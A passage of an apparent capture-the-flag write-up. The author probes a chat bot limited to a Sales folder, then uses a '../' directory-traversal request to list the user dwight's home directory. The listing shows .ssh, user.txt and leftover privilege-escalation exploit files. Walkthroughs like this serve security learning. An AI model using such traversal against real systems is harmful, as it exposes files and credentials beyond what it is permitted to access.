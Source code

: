 ```
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

We can dm this bot with commands such as list, doing so returns us a list of files and directories

```
>> list

Fetching the directory listing of /sales/
total 8
drwxr-xr-x 4  dwight dwight 32 Jul 3 2021 .
drwx------ 13 dwight dwight 4096 Apr 26 08:39 ..
drwxr-xr-x 2  dwight dwight 27 Sep 15 2021 sale
drwxr-xr-x 2  dwight dwight 27 Jul 3 2021 sale_2
```

It shall be noted we cant inject shell commands, sadly :(

We can also tell him to list specific folders such as sale or sale\_2, if we look at the output he gave us we can also try to get out of our current dictionarry using something such as ../

```
>> list ../

total 64
drwx------ 13 dwight dwight 4096 Apr 26 08:39 .
drwxr-xr-x. 3 root root 20 Apr 26 08:42 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw-rw-r-- 1 dwight dwight 0 Apr 26 08:34 cve-2021-4034.c
-rw------- 1 dwight dwight 9 Apr 26 04:59 .dbshell
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwxrwxr-x 2 dwight dwight 27 Apr 26 04:03 exploit
-rw-rw-r-- 1 dwight dwight 2434 Apr 26 08:31 ex.py
-rwxrwxr-x 1 dwight dwight 306 Apr 26 08:33 ex.sh
drwxrwxr-x 2 dwight dwight 21 Apr 26 04:03 GCONV_PATH=.
drwx------ 3 dwight dwight 69 Apr 26 04:59 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
-rwxr-xr-x 1 dwight dwight 431 Apr 26 04:03 payload.so
-rw-rw-r-- 1 dwight dwight 0 Apr 26 08:35 pwnkit.c
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 Apr 26 01:51 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
-rw------- 1 dwight dwight 2089 Apr 26 08:17 .viminfo
-rwxrwxr-x 1 dwight dwight 2434 Apr 26 08:39 xe.py
```